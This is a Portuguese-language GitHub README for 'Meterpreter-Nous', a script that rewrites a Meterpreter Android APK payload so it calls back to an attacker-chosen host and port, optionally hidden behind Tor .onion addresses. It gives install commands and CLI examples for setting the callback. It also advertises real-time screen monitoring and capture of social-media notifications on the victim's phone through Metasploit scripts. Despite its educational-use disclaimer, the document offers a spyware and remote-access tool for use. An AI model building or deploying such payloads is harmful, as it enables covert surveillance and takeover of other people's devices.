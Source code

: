 ```yaml
---

Meterpreter-Nous

"Hack the system. Reconfigure. Adapt. Overcome."

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.


---
```


[ SYSTEM CORE ]

Modifica o arquivo Payload.smali para definir um novo host e porta.

Suporte total a hosts .onion para conexões sigilosas via Tor.

Compilação automatizada do APK modificado.



---

[ SYSTEM REQUIREMENTS ]

Certifique-se de possuir as ferramentas essenciais:

Python 3.x

apktool

Java



---

[ INSTALL & DEPLOY ]

Clone o repositório e navegue até o diretório:

git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian


---

[ EXECUTION MODE ]

Defina o host e porta diretamente na CLI:

python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>

Exemplos de Execução:

1. Configuração de um host sem Tor:

python script.py --host 192.168.0.1 --porta 8080 --tor false

2. Configuração de um host .onion com Tor:

python script.py --host exemplo.onion --porta 8080 --tor true


---

[ SYSTEM PARAMETERS ]

--host → Define o IP ou domínio para conexão.

--porta → Porta para comunicação remota.

--tor → Define se Tor será utilizado (true/false).



---

[ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

Monitoramento em tempo real da tela do Android.

Captura de notificações de redes sociais e outros aplicativos.


Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em msf-scripts. Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

meterpreter> run <script>


---

"No system is safe. The only real security is obscurity."


---

[ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

Não há qualquer garantia de funcionamento ou segurança.

O uso deste código é de total responsabilidade do usuário.

Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.


Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.


